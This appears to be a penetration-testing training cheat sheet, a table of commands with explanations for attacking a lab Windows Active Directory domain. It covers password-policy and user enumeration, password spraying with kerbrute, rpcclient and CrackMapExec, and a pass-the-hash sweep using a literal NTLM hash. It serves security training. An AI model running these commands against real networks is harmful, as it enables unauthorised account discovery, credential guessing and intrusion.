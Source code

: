 | `enum4linux-ng -P 172.16.5.5 -oA ilfreight`                                                                                          | Uses `enum4linux-ng` to enumerate the password policy (`-P`) in a target Windows domain from a Linux-based host, then presents the output in YAML & JSON saved in a file proceeding the `-oA` option.                                                |
| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" \| grep -m 1 -B 10 pwdHistoryLength`                          | Uses `ldapsearch` to enumerate the password policy in a target Windows domain from a Linux-based host.                                                                                                                                               |
| `net accounts`                                                                                                                       | Used to enumerate the password policy in a Windows domain from a Windows-based host.                                                                                                                                                                 |
| `Import-Module .\PowerView.ps1`                                                                                                      | Uses the Import-Module cmd-let to import the `PowerView.ps1` tool from a Windows-based host.                                                                                                                                                         |
| `Get-DomainPolicy`                                                                                                                   | Used to enumerate the password policy in a target Windows domain from a Windows-based host.                                                                                                                                                          |
| `enum4linux -U 172.16.5.5 \| grep "user:" \| cut -f2 -d"[" \| cut -f1 -d"]"`                                                         | Uses `enum4linux` to discover user accounts in a target Windows domain, then leverages `grep` to filter the output to just display the user from a Linux-based host.                                                                                 |
| `rpcclient -U "" -N 172.16.5.5 rpcclient $> enumdomuser`                                                                             | Uses rpcclient to discover user accounts in a target Windows domain from a Linux-based host.                                                                                                                                                         |
| `crackmapexec smb 172.16.5.5 --users`                                                                                                | Uses `CrackMapExec` to discover users (`--users`) in a target Windows domain from a Linux-based host.                                                                                                                                                |
| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" \| grep sAMAccountName: \| cut -f2 -d" "` | Uses `ldapsearch` to discover users in a target Windows doman, then filters the output using `grep` to show only the `sAMAccountName` from a Linux-based host.                                                                                       |
| `./windapsearch.py --dc-ip 172.16.5.5 -u "" -U`                                                                                      | Uses the python tool `windapsearch.py` to discover users in a target Windows domain from a Linux-based host.                                                                                                                                         |
| `for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 \| grep Authority; done`             | Bash one-liner used to perform a password spraying attack using `rpcclient` and a list of users (`valid_users.txt`) from a Linux-based host. It also filters out failed attempts to make the output cleaner.                                         |
| `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1`                                             | Uses `kerbrute` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host.                                                                                               |
| `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 \| grep +`                                                       | Uses `CrackMapExec` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using `grep`.                                          |
| `sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123`                                                                        | Uses `CrackMapExec` to validate a set of credentials from a Linux-based host.                                                                                                                                                                        |
| `sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf \| grep +`                    | Uses `CrackMapExec` and the -`-local-auth` flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using `grep`. |